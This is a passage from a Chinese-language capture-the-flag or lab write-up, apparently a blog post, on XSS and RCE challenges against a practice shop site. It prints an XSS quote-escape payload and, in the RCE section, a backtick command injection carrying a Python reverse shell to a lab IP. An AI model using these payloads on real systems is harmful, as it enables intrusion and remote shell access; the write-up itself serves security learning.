 很明显，我们输入的数据被拼接到search变量中，通过字符串拼接“+”来达到逃逸引号并且被正常执行的目的：

	'%2balert('hack');%2b'

注意需要将加号进行urlencode

![在这里插入图片描述](https://img-blog.csdnimg.cn/64374f30b3d44bd6aeaa0cb850936136.png)

## XSS - 7

在商品页面处

![在这里插入图片描述](https://img-blog.csdnimg.cn/ae022f2edcc14d7c923a8c89d48190a7.png)

post参数discount没有用处，但是把它拿到get请求上来，猜测discount从$_REQUEST从取参数，将会覆盖掉discount的初始值

但是这里会把单引号和括号给过滤掉，我们这里需要使用双引号逃逸，如果尝试：

![在这里插入图片描述](https://img-blog.csdnimg.cn/67efafc0653b4a899485eadbdd6e41b2.png)

很明显，这是不行的，可以将后面的双引号作为其他参数：

![在这里插入图片描述](https://img-blog.csdnimg.cn/873206910cea4197982cf1d0ee2d987f.png)

这样alert将被成功执行：

![在这里插入图片描述](https://img-blog.csdnimg.cn/95b2aaf8095d4e8c9a705828da2785cd.png)

## RCE - 1

对于rce，这个站基本上许多功能都看完了，应该没有哪里能rce，所以我把眼光放到了调用api的那两个页面上

没错，又是那个转pdf的功能，对着idfuzzing

最终结果是使用反引号就可以执行任意命令

![在这里插入图片描述](https://img-blog.csdnimg.cn/6ab3e5b585d5411c8ff249eb7db32a2e.png)

这里通过python来getshell，payload:

	what=order&id=5`python3+-c+'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.39.48",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'`

![在这里插入图片描述](https://img-blog.csdnimg.cn/ab349fba655144eb8924659c3ef0e598.png)

### 验证想法

还记得昨天的idor吗，通过shell，我找到了相关代码：

![在这里插入图片描述](https://img-blog.csdnimg.cn/3368d85661e44a0d982d06ab0cd0847c.png)

我的猜想果然没错

## 侦察
